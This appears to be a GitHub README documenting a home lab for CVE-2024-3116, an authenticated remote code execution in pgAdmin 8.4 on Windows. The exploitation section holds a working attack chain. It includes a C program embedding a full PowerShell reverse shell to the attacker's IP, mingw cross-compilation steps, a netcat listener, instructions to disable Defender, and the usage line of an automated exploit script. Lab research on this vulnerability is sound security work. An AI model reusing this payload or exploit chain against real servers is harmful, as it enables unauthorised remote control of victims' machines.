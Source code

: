 # CVE-2024-3116_RCE_in_pgadmin_8.4
Making a lab and testing the CVE-2024-3116, a Remote Code Execution in pgadmin &lt;=8.4

I used [this article](https://ayoubmokhtar.com/post/remote_code_execution_pgadmin_8.4-cve-2024-3116/) as a baseline.

## Installation of the lab

First thing first a little comment on this lab, the documentation of pgadmin is pretty bad and I didn't find any trace of anybody installing pgadmin on windows...

1. The author said the vulnerability is present only on windows so I'll use the windows 11 VM given by Microsoft ([here](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/))
2. After installing the VM, I Install *python 3.10.0* (I made some test with 3.11 and 3.12 but I get some dependancies issues so lets go with 3.10)
3. Install *postgresql 16.2* (without pgadmin, and I put password as a password for my postgresql, not very important in our case)
4. It’s recommended to install pgadmin in a python virtualenv, I tried and that didn’t worked so F*CK VENV ! 
5. update pip : `python -m pip install -U pip`
6. Install wheel : `python -m pip install wheel`
7. Download source : https://www.postgresql.org/ftp/pgadmin/pgadmin4/ > 8.4 > pip > download .whl file
8. Install pgadmin4 : `python -m pip install C:\Users\User\Downloads\pgadmin4-8.4-py3-none-any.whl`
    - Folder of installation : `C:\Users\User\AppData\Local\Programs\Python\Python310\Lib\site-packages\pgadmin4`
9. Let’s configure : 
    - In the file : `C:\Users\User\AppData\Local\Programs\Python\Python310\Lib\site-packages\pgadmin4\config_local.py`, add the following line :
    ```
    LOG_FILE = r'C:\Users\User\pgadmin4\log\pgadmin4.log'
    SQLITE_PATH = r'C:\Users\User\pgadmin4\pgadmin4.db'
    SESSION_DB_PATH = r'C:\Users\User\pgadmin4\sessions'
    STORAGE_DIR = r'C:\Users\User\pgadmin4\storage'
    SERVER_MODE = True 
    ```
    - Create the folders that doesn’t exist (pgadmin4\log, pgadmin4\sessions, pgadmin4\storage)
    - Create the folder : `C:\Users\User\AppData\Roaming\pgAdmin` (need for setup.py)
    - In the installtion folder of pgadmin4 (see 8) launch : `python site-packages/pgadmin4/setup.py setup-db`, I put *Email = toto@exploit.loc* and *Password = password* (this email and password are important because we need them to connect to pgadmin)

Then the web server : 
1. Install XAMPP (can uncheck everything, just need apache)
2. Add the environment variable : `MOD_WSGI_APACHE_ROOTDIR = C:/xampp/apache`
3. Install mod-wsgi : `pip install mod-wsgi`
4. Get the configuration : `mod_wsgi-express module-config`
5. Copy the result of the previous command at the end of the `httpd.conf` file of apache
6. To finish launch the server with (from the installation folder of pgadmin): `mod_wsgi-express start-server .\pgAdmin4.wsgi` (should be accessible on port 8000)


## Let’s exploit

I'll exploit the vulnerability from a Kali machine which is on the same network as the pgadmin.
- Kali = 192.168.112.128
- Windows = 192.168.112.162

Again : This exploit works only against Windows pgadmin ! And we need a valid user in order to exploit this vulnerability !

1. I want a reverse shell so I took the PoC on the blogpost linked at the beginning of this file, I put the IP of my Kali in order to test :
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
	if (argc > 1 && strcmp(argv[1], "--version") == 0) {
    	system("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('192.168.112.128',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
	} else {
    	printf("Usage: %s --version\n", argv[0]);
	}
	return 0;
}
```
2. Because the PoC is a C program for windows let’s use a cross-compiler :
    - Installing a cross-compiler : `sudo apt-get install mingw-w64`
    - Create a file with PoC previously mentionned and compile with : `x86_64-w64-mingw32-gcc -o pg_restore poc.c`
    ![windows compilation from linux](./img/compile_for_windows.png)
3. The name of the binary must be a *pg_* (or *psql*) in order to be executed, must be a known postgresql tool
4. Launch burp and configure your browser to pass by burp in order to see the upload request
5. Let’s upload this file via the interface (after login with *toto@exploit.loc*) : `Tools > Import/Export Servers > ‘click on the little folder icon’ > ‘Click on the three dot in the right upper corner of the select file window and select upload’ > ‘select the binary PoC’`
![request of file upload](./img/request_upload_with_response.png)
6. To check go on windows then in the storage folder we have created (*C:\Users\User\pgadmin4\storage*) we can see the file
7. ALSO VERY IMPORTANT the response of the upload request contain the path to the *exe* we uploaded, will be important for after
8. Launch a netcat (`nc -lvnp 9001`) in order to receive the response : *IMPORTANT !!!!!!!!! Defender will prevent the execution of the binary (so deactivate defender)*
9. Then we will go on the interface and click on : `File > Preferences > Binary Paths` and add the path we get in the response to the upload file in the textbox saying *Enter binary path...* in front of postgresql 16, finally click on the icon in the textbox in order to trigger the PoC
![request triggering the poc](./img/request_trigger_poc.png)
10. Enjoy !
![reverse shell gained](./img/reverse_shell.png)

## Exploit

I wrote a python script to exploit this vulnerability automatically, almost nothing to do.

Things to know before using this script : 
- We need a proxy to intercept the response of the uploaded file in order to give the path to the file at the script. Personnaly i'm using Burp.
- The whole script use selenium so you will need that (`pip install selenium`)
- The script execute a command in order to compile the sent binary so you need to install cross-compiler : `sudo apt-get install mingw-w64`
- You need to launch a netcat in another terminal with the port you want the connection to come (`nc -lvnp <port>`)
- This script give a reverse shell

To use this exploit use this command :
`python exploit_cve_2024_3116.py --email <pgadmin_user_email> --password <pgadmin_user_pass> --rhost <http://target_ip_or_domain> --rport <target_port> --lhost <listener_ip> --lport <listener_port>`

## Demo

A little demo : https://youtu.be/zdMC3kbN0Is

## References

All this link helped me installing pgadmin on windows :
- https://www.digitalocean.com/community/tutorials/how-to-install-configure-pgadmin4-server-mode
- https://www.pgadmin.org/docs/pgadmin4/development/server_deployment.html
- https://pypi.org/project/mod-wsgi/
- https://stackoverflow.com/questions/59801387/how-to-install-mod-wsgi-into-apache-on-windows
- https://stackoverflow.com/questions/44670209/how-to-compile-c-code-in-linux-to-run-on-windows